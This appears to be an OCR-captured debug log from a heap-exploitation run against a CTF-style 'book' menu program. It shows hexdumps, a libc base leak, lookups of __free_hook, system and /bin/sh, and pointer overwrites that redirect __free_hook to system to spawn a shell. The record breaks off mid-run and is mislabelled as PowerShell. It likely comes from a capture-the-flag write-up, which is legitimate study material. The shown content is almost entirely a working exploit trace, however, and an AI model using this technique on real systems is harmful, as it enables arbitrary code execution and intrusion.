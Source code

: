 ```powershell
    00000000  49 44 3a 20  31 0a 4e 61  6d 65 3a 20  10 0a 44 65  │ID: │1·Na│me: │··De│
    00000010  73 63 72 69  70 74 69 6f  6e 3a 20 10  0a 41 75 74  │scri│ptio│n: ·│·Aut│
    00000020  68 6f 72 3a  20 61 61 61  61 61 61 61  61 61 61 61  │hor:│ aaa│aaaa│aaaa│
    00000030  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000040  61 61 61 61  61 0a 49 44  3a 20 32 0a  4e 61 6d 65  │aaaa│a·ID│: 2·│Name│
    00000050  3a 20 62 6f  6f 6b 32 5f  6e 61 6d 65  0a 44 65 73  │: bo│ok2_│name│·Des│
    00000060  63 72 69 70  74 69 6f 6e  3a 20 62 6f  6f 6b 32 5f  │crip│tion│: bo│ok2_│
    00000070  64 65 73 63  0a 41 75 74  68 6f 72 3a  20 61 61 61  │desc│·Aut│hor:│ aaa│
    00000080  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000090  61 61 61 61  61 61 61 61  61 61 61 61  61 0a 0a 31  │aaaa│aaaa│aaaa│a··1│
    000000a0  2e 20 43 72  65 61 74 65  20 61 20 62  6f 6f 6b 0a  │. Cr│eate│ a b│ook·│
    000000b0  32 2e 20 44  65 6c 65 74  65 20 61 20  62 6f 6f 6b  │2. D│elet│e a │book│
    000000c0  0a 33 2e 20  45 64 69 74  20 61 20 62  6f 6f 6b 0a  │·3. │Edit│ a b│ook·│
    000000d0  34 2e 20 50  72 69 6e 74  20 62 6f 6f  6b 20 64 65  │4. P│rint│ boo│k de│
    000000e0  74 61 69 6c  0a 35 2e 20  43 68 61 6e  67 65 20 63  │tail│·5. │Chan│ge c│
    000000f0  75 72 72 65  6e 74 20 61  75 74 68 6f  72 20 6e 61  │urre│nt a│utho│r na│
    00000100  6d 65 0a 36  2e 20 45 78  69 74 0a 3e  20           │me·6│. Ex│it·>│ │
    0000010d
[+] Mmap address : 0x637365440a10
[*] Calculating libc's base
[+] Libc's addr : 0x7ffff79e4000
[*] Searching __free_hook & system & /bin/sh in libc...
[+] __free_hook address: 0x7ffff7dd18e8
[+] system address: 0x7ffff7a334e0
[+] /bin/sh address: 0x7ffff7b980fa
[*] Changing book2's pointers...
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x24 bytes:
    'Enter the book id you want to edit: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Enter new book description: '
[DEBUG] Sent 0x11 bytes:
    00000000  fa 80 b9 f7  ff 7f 00 00  e8 18 dd f7  ff 7f 00 00  │····│····│····│····│
    00000010  0a                                                  │·│
    00000011
[DEBUG] Received 0x6f bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[+] Book2's name and description's pointer has been changed!
[*] Book2's name --> /bin/sh
[*] Book2's desc --> free_hook
[*] Prepare to change book2's description, also known as __free_hook.
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x24 bytes:
    'Enter the book id you want to edit: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x1c bytes:
    'Enter new book description: '
[DEBUG] Sent 0x9 bytes:
    00000000  e0 34 a3 f7  ff 7f 00 00  0a                        │·4··│····│·│
    00000009
[DEBUG] Received 0x6f bytes:
```